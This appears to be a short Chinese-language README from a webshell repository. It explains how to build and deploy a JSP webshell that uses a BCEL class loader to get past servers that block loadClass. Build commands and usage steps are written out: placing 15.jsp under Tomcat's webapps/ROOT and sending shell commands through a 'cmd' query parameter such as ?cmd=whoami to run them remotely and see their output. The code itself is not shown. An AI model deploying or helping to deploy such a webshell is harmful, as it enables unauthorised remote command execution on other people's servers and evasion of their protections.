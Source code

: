 ### BCEL类加载器进行一定包装-可能在某些禁了loadClass方法的地方bypass的JSP Webshell

生成BCEL字节码：
```
javac EvilMake.class Evil15.class
java EvilMake
```

使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问15.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/15.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```
